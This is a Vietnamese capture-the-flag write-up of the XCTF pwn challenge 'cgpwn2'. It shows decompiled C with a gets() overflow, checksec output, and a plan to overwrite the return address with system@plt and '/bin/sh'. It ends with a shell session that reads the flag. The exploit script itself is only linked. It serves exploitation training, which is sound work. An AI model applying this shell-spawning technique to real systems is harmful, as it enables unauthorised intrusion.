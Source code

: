 XCTF - PWN Exercise - cgpwn2

```c
#include<stdio.h>
string name;

int pwn()
{
  return system("echo hehehe");
}

char *hello()
{
  __int16 *p_s; // eax
  char v1; // bl
  unsigned int v2; // ecx
  __int16 *v3; // eax
  __int16 s; // [esp+12h] [ebp-26h] BYREF
  int v6; // [esp+14h] [ebp-24h] BYREF

  p_s = &s;
  v1 = 30;
  if ( ((unsigned __int8)&s & 2) != 0 )
  {
    s = 0;
    p_s = (__int16 *)&v6;
    v1 = 28;
  }
  v2 = 0;
  do
  {
    *(_DWORD *)&p_s[v2 / 2] = 0;
    v2 += 4;
  }
  while ( v2 < (v1 & 0x1Cu) );
  v3 = &p_s[v2 / 2];
  if ( (v1 & 2) != 0 )
    *v3 = 0;
    
  puts("please tell me your name");
  fgets(name, 50, stdin); 	// no cho phep luu /bin/sh vao roi goi lai de nhan shell voi bien toan cuc name 
  puts("hello,you can leave some message here:");
  return gets((char *)&s);	// tra ve dia chi bien toan cuc luu shell vao .bss roi goi dia chi
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  
  hello();
  
  puts("thank you");
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/4_cgpwn2 λ checksec cgpwn2    
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/4_cgpwn2/cgpwn2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Đừng để ý vào đoạn đầu của code được decompile từ IDA vì mình cũng không hiểu nó viết gì :(. Cuối hàm `hello()` ta thấy chương trình nhập vào chuỗi biến toàn cục `name` tối đa 50 kí tự rồi sau đó nhập chuỗi vào `s` với offset so với return address là 0x26 + 0x4 = 0x2a bằng hàm `gets` => có thể dùng stack buffer overflow.

Ý tưởng là ta sẽ ghi đè địa chỉ trả về bằng địa chỉ plt của `system` trong hàm `pwn()` sau đó truyền đối số là chuỗi `"/bin/sh"` mà ta sẽ nhập vào ở biến toàn cục `name` trong lần nhập đầu tiên.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/4_cgpwn2 λ python2 exp.py
[+] Opening connection to 111.200.241.244 on port 58199: Done
[*] Switching to interactive mode
$ ls
bin
cgpwn2
dev
flag
lib
lib32
lib64
$ cat flag
cyberpeace{4a613cfb11a70856f8d649e3d9883daa}
$ 
```
